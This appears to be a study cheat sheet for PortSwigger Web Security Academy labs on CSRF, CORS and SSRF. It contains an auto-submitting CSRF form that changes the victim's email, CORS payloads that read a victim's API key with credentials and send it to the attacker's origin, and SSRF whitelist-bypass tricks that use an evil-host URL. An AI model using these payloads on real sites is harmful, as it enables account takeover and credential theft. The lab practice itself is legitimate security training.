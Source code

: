 ```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState("", "", "/?ID.web-security-academy.net")</script>
    <form action="https://0ad600eb04f49764c08e71fc00410092.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="dd&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# CORS

Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials`
 header suggesting that it may support CORS.

Any origin:

```
<script>
fetch(`https://LAB/accountDetails`, {
  credentials: 'include',
  method: 'GET'
})
.then(response=> response.json())
.then(data => {
  fetch(`/?apiKey=${data.apikey}`)
})
</script>
```

Origin: Null

`<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>fetch(`https://LAB/accountDetails`, { credentials: 'include', method: 'GET' }).then(response=> response.json()).then(data => { fetch(`/?apiKey=${data.apikey}`, { mode: 'no-cors' }) }) </script>"></iframe>`

# SSRF

Look for any parameter that is using a URL or a URL path as an indicator for SSRF. The labs used a stockApi parameter when checking the stock of products at a location.

- Fuzzing List
    - **[https://raw.githubusercontent.com/osamahamad/FUZZING/main/localhost.txt](https://raw.githubusercontent.com/osamahamad/FUZZING/main/localhost.txt)**
- Browse pages with Burp Collabrator server host in Referer header
- Try HTTP Host header attacks techniques
- Whitelist bypass
    - **[https://github.com/0x221b/Wordlists/blob/master/Attacks/SSRF/Whitelist-bypass.txt](https://github.com/0x221b/Wordlists/blob/master/Attacks/SSRF/Whitelist-bypass.txt)**
    - Can be used if username:password is supported
    - Verification involves checking the URL-decoded value
        - **[http://evil-host%23@expected-host](http://evil-host%23@expected-host/)**
        - Interpreted as **[http://evil-host#@expected-host](http://evil-host/#@expected-host)** in the request and the request is sent to evil-host
- Collaborator Everywhere (Burp Extension)
    - Detects pingbacks to Referer and User-Agent during request just by being installed
- Mystery Lab target